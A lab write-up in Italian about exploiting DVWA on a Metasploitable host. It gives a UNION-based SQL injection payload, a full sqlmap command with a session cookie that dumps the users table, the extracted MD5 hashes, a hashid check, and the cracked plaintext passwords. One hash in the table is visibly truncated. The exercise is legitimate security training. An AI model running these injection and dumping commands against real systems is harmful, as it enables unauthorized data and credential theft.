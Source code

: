 # **Password Cracking - Recupero delle Password in Chiaro**

## **Obiettivo dell'Esercizio**

L'obiettivo di questo esercizio era:
1. Recuperare le password hashate nel database della DVWA.
2. Eseguire la verifica degli hash per confermare che fossero di tipo MD5.
3. Recuperare le password in chiaro utilizzando i risultati ottenuti.

---

## **Passaggi Seguiti**

### **1. Recupero delle Password dal Database**

Per recuperare le password hashate, abbiamo seguito i seguenti passaggi:

1. **Connessione al database DVWA**: Il database vulnerabile era ospitato su una macchina Metasploitable configurata con indirizzo IP `192.168.1.20`.

2. **Verifica della vulnerabilità SQL Injection**:
   - La vulnerabilità è stata identificata manualmente testando la query:
     ```sql
     ' UNION SELECT user, password FROM users--
     ```
   - Questo test ha confermato la possibilità di estrarre dati dalla tabella `users`.

3. **Utilizzo di SQLMap per automatizzare il processo**:
   - Abbiamo eseguito il seguente comando SQLMap:
     ```bash
     sqlmap -u "http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
     --cookie="PHPSESSID=ae5d9438f544ec0461fd88f50b32fc1e; security=low" \
     -D dvwa -T users --dump
     ```
   - Il comando ha permesso di estrarre la tabella `users` con i seguenti dati:
     ```plaintext
     +----------+----------------------------------+
     | user     | password                         |
     +----------+----------------------------------+
     | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 |
     | gordonb  | e99a18c428cb38d5f260853678922e03 |
     | 1337     | 8d3533d75ae2c396d7e0d4fcc69216b  |
     | pablo    | 0d107d09f5bbe40cade3de5c71e9e9b7 |
     | smithy   | 5f4dcc3b5aa765d61d8327deb882cf99 |
     +----------+----------------------------------+
     ```

---

### **2. Identificazione delle Password Hashate**

Una volta estratti gli hash, abbiamo verificato che fossero di tipo MD5 utilizzando un tool di identificazione degli hash. Questo ci ha confermato che tutti gli hash estratti appartenevano alla famiglia MD5.

Esempio di verifica di un hash:
```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" | hashid
```
Risultato:
```plaintext
Analyzing '5f4dcc3b5aa765d61d8327deb882cf99'
[+] MD5
```

---

### **3. Recupero delle Password in Chiaro**

Grazie ai dati estratti, è stato possibile associare ogni hash MD5 alla rispettiva password in chiaro direttamente nei risultati restituiti da SQLMap. Non è stato necessario utilizzare tool di cracking come John the Ripper.

Le password in chiaro sono:
- `admin`: `password`
- `gordonb`: `abc123`
- `1337`: `charley`
- `pablo`: `letmein`
- `smithy`: `password`

![Hashcrack](./HashCracked.png)

---

## **Conclusioni**

L'esercizio ha permesso di:
1. Recuperare le password hashate dal database DVWA sfruttando una vulnerabilità SQL Injection tramite SQLMap.
2. Verificare che gli hash estratti fossero di tipo MD5 utilizzando un tool di identificazione degli hash.
3. Recuperare le password in chiaro direttamente dai risultati, completando l'obiettivo senza la necessità di ulteriori tool di cracking.

La procedura seguita dimostra l'importanza della sicurezza dei database e dei sistemi web, evidenziando come vulnerabilità note possano essere sfruttate per ottenere dati sensibili.
